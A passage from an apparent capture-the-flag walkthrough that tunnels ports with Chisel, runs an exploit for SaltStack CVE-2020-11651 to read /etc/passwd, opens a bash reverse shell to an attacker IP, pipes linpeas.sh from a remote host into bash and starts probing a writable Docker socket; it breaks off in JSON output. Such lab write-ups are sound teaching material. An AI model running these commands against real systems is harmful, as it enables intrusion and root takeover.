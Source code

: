 To access the ports from our box, the tool [Chisel](https://github.com/jpillora/chisel) is useful to forward ports from a remote server.

Starting the **Chisel** server on our local client:
```
./chisel server -p 8001 --reverse
```

Forwarding the ports with **Chisel** from the box:
```
./chisel client 10.10.14.7:8001 R:4505:127.0.0.1:4505 R:4506:127.0.0.1:4506 R:8000:127.0.0.1:8000
```

Executing the exploit script to read _/etc/passwd_:
```
python3 48421.py -r /etc/passwd
```
```
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: gdHNelebSP/ioIZ9lqH/dat4LzNeDEwL9IlkecC+VQ2pBanpW4IajfHS4e4GzkOuiAE5J52oSkE=
[+] Attemping to read /etc/passwd from 127.0.0.1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```

Command execution works, so this can be used to gain a reverse shell:
```
python3 48421.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.7/9002 0>&1"'
```

After sending the command, the listener on my IP and port 9002 starts a reverse shell connection as _root_ on the hostname _2d24bf61767c_.
This hostname is randomly generated by **Docker** and we got access to the container.

### Privilege Escalation to root

To get an attack surface on the container, it is recommended to run any **Linux Enumeration script**:
```
curl 10.10.14.4/linpeas.sh | bash
```

This container can access the **Docker socket** and the file _/var/run/docker.sock_ is writable.
Also the _.bash_history_ file has contents and one of the commands hints at this:
```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

A writable Docker socket can be used to escalate privileges as described on [HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket).

As the `docker` package is not installed in the container, the **Docker Web API** has to be used with `curl` to gather information.
In this case, it shows information about all images on the box:
```
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json

[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
```